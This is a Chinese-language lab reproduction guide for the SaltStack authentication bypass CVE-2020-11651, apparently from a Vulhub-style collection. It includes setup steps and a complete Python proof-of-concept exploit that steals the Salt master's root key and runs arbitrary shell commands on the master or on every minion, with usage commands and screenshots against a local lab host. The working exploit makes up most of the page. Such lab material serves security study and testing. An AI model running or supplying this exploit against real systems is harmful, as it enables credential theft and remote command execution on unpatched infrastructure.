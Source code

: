 # SaltStack 水平权限绕过漏洞 CVE-2020-11651

## 漏洞描述

SaltStack 是基于 Python 开发的一套C/S架构配置管理工具。国外某安全团队披露了 SaltStack 存在认证绕过漏洞（CVE-2020-11651）和目录遍历漏洞（CVE-2020-11652）。

在 CVE-2020-11651 认证绕过漏洞中，攻击者通过构造恶意请求，可以绕过 Salt Master 的验证逻辑，调用相关未授权函数功能，从而可以造成远程命令执行漏洞。

参考链接：

- https://labs.f-secure.com/advisories/saltstack-authorization-bypass
- https://github.com/rossengeorgiev/salt-security-backports
- https://github.com/saltstack/salt/blob/a67d76b15615983d467ed81371b38b4a17e4f3b7/tests/integration/master/test_clear_funcs.py

## 环境搭建

Vulhub执行如下命令启动一个SaltStack Master服务：

```
docker-compose up -d
```

环境启动后，将会在本地监听如下端口：

- 4505/4506 这是SaltStack Master与minions通信的端口
- 8000 这是Salt的API端口
- 2222 这是容器内部的SSH服务器监听的端口

## 漏洞复现

本文档复现CVE-2020-11651漏洞。

我们可以使用如下请求来执行`salt/master.py`中的`ClearFuncs:_prep_auth_info`方法：

```
{'cmd': '_prep_auth_info'}
```

利用这个方法，可以获得目标的所有用户的key，利用这个key即可通过超级管理员权限执行一些后台功能，比如下发任务等。

使用[这个POC](https://github.com/dozernz/cve-2020-11651)，首先获取Key，再在master中执行`touch /tmp/success`：

```python
#!/usr/bin/env python3

# POC for exploiting CVE-2020-11651. CVE-2020-11652 not included, but this one is the really powerful one and it should be easy enough to figure out how to get 11652 working if you need.
# Author: @dozernz
# Some code adapted from https://github.com/rossengeorgiev/salt-security-backports
#
# Pre-requsities: pip3 install salt


import os
import sys

import salt
import salt.version
import salt.transport.client
import salt.exceptions
import datetime


def ping_master():
    print("Attempting to ping master at "+master_ip)
    try:
        msg = {"cmd":"ping"}
        response = clear_channel.send(msg, timeout=3)
        if response:
            return True
    except salt.exceptions.SaltReqTimeoutError:
        return False

    return False


def get_rootkey():
    try:
        response = clear_channel.send({'cmd':'_prep_auth_info'}, timeout=2)
        for i in response:
            if isinstance(i,dict) and len(i) == 1:
                rootkey = list(i.values())[0]
                print("Retrieved root key: " + rootkey)
                return rootkey

        return False
        
    except:
        return False


def send_command_to_minions(command):
    print("Sending command to all minions on master")
    jid = "{0:%Y%m%d%H%M%S%f}".format(datetime.datetime.utcnow())
    cmd = "/bin/sh -c '{0}'".format(command)

    msg = {'cmd':"_send_pub","fun":"cmd.run","arg":[cmd],"tgt":"*","ret":"","tgt_type":"glob","user":"root","jid":jid}

    try:
        response = clear_channel.send(msg,timeout=3)
        if response == None:
            return True
        else:
            return False
    except:
        return False



def master_shell(root_key,command):
    # This is achieved by using the stolen key to create a "runner" on the master node using the cmdmod module, then the cmd.exec_code function to run some python3 code that shells out.
    # There is a cmd.shell function but I wasn't able to get it to accept the "cmd" kwarg parameter for some reason.
    # It's also possible to use CVE-2020-11652 to get shell if the master instance is running as root by writing a crontab into a cron directory, or proably some other ways.
    # This way is nicer though, and doesn't need the master to be running as root .


    msg = {"key":root_key,
            "cmd":"runner",
            'fun': 'salt.cmd',
            "kwarg":{
                "fun":"cmd.exec_code",
                "lang":"python3",
                "code":"import subprocess;subprocess.call('{}',shell=True)".format(command)
                },
            'jid': '20200504042611133934',
            'user': 'sudo_user',
            '_stamp': '2020-05-04T04:26:13.609688'}

    try:
        response = clear_channel.send(msg,timeout=3)
        print("Got response for attempting master shell: "+str(response)+ ". Looks promising!")
        return True
    except:
        print("something failed")
        return False



if __name__=="__main__":
    if len(sys.argv) <= 2:
        print("Not enough args")
        print("Use like python3 cve-2020-11651.py <targetip> <master/minions/fetchkeyonly> <command>")
        sys.exit(1)
    
    
    target = sys.argv[1]
    master_minion_root = sys.argv[2]


    master_ip = target
    master_port = '4506'

    minion_config = {

    'transport': 'zeromq',
    'pki_dir': '/tmp',
    'id': 'root',
    'log_level': 'debug',
    'master_ip': master_ip,
    'master_port': master_port,
    'auth_timeout': 5,
    'auth_tries': 1,
    'master_uri': 'tcp://{0}:{1}'.format(master_ip, master_port)
    }

    clear_channel = salt.transport.client.ReqChannel.factory(minion_config, crypt='clear')

    if not ping_master():
        print("Failed to ping the specified master server, exiting")
        sys.exit(1)


    if master_minion_root == "master" or master_minion_root == "minions":
        command = sys.argv[3]
        rootkey = get_rootkey()
        if not rootkey:
            print("Failed to fetch the root key from the instance. This MAY indicate that it is patched")
            sys.exit(1)
        else:
            if master_minion_root == "master":
                master_shell(rootkey,command)
            else:
                send_command_to_minions(command)

    elif master_minion_root == "fetchkeyonly":
        get_rootkey()

    else:
        print("Invalid usage")
```

获取key：

```
python CVE-2020-11651.py 192.168.174.128 fetchkeyonly
```

![image-20220228194719579](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202281947375.png)

执行命令`touch /tmp/awesome_poc`：

```
python CVE-2020-11651.py 192.168.174.128 master "touch /tmp/awesome_poc"
```

![image-20220228194733635](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202281947385.png)

成功执行命令`touch /tmp/awesome_poc`：

![image-20220228194524614](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202281945708.png)